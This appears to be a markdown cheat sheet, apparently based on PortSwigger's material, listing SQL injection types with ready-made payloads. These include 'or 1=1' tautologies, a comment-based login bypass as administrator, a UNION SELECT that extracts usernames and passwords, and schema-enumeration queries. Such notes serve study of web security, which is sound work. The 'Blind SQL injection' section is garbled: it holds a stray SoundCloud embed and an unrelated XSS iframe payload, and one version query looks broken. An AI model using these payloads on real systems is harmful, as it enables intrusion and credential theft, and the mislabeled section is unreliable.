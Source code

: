 There are wide variety of SQL injection vulnerabilities:
```
' or 1=1--
' or 1=1 -- -
```
* [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data): where you can modify an SQL query to return additional results.
```
https://insecure-website.com/products?category=Gifts'-- (SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1)
https://insecure-website.com/products?category=Gifts'+OR+1=1-- (SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1)
```

* [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic): where you can change a query to interfere with the application's logic.Consider an application that lets users log in with a username and password. If a user submits the username wiener and the password bluecheese, the application checks the credentials by performing the following SQL query:
```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese' >> administrator'-- (SELECT * FROM users WHERE username = 'administrator'--' AND password = '')
```
* [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks), where you can retrieve data from different database tables.
```
' UNION SELECT username, password FROM users--
```
* [Examining the database](https://portswigger.net/web-security/sql-injection/examining-the-database), where you can extract information about the version and structure of the database.Following initial identification of an SQL injection vulnerability, it is generally useful to obtain some information about the database itself. This information can often pave the way for further exploitation.
```
SELECT * FROM information_schema.tables
SELECT * FROM $version
```

* [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) where the results of a query you control are not returned in the application's responses.
```
  ́ OR 1=1 --
  <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/‐ 771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show iframe>
  <iframe src="javascript:alert(`xss`)">
```
